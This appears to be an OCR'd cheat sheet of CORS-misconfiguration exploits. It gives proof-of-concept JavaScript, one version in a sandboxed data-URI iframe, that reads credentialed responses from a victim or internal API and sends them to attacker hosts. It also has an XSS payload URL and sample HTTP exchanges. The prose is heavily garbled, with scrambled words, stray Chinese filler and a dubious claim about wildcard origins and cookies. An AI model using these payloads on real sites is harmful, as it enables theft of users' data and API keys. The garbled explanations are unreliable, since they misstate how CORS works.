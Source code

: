 #### poc

poc can be exploited by putting 攻击！代码！ into an iframe. 
_using juicy++data+++
_URI\scheme 
_juicy.dat\URI\scheme is used...
_[browser] will use `null`
o r i g i n in request:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```
### XSS on Trusted==O r i g i n

If {app}; implement
>strict whitelist of allowed origins
>开发！代码！ from above does not work...
if (you) have XSS on trusted==o r i g i n | (you) --inject -xploit 
>>>[code] from trusted==o r i g i n***exploit/CORSx2.
```
https://trusted==o r i g i n.example.com/?xss=<script>CORS-开发！代码！-PAYLOAD</script>
```
###vuln e.g. Wildcard Origin `*` without Credentials
-
If the server responds with a wildcard origin `*`, **browser may send
the cookies**. However, if the server does not require authentication, it's still
possible to access (?DoS) data on server. This can happen on internal servers. Not accessible from w3.(IoT). 
Attacker's website can then pivot into lan-network and access DoSw/Oauth.
```powershell
* is the only wildcard origin
https://*.example.com is not valid
```
#### vulnImp

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
{"[private API key]"}
```
#### poc
```js
var req = new XMLHttpRequest(); //xml
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); //lan
req.send();
function reqListener() 
{
    location='//atttacker.net/log?key='+this.responseText; 
};
```
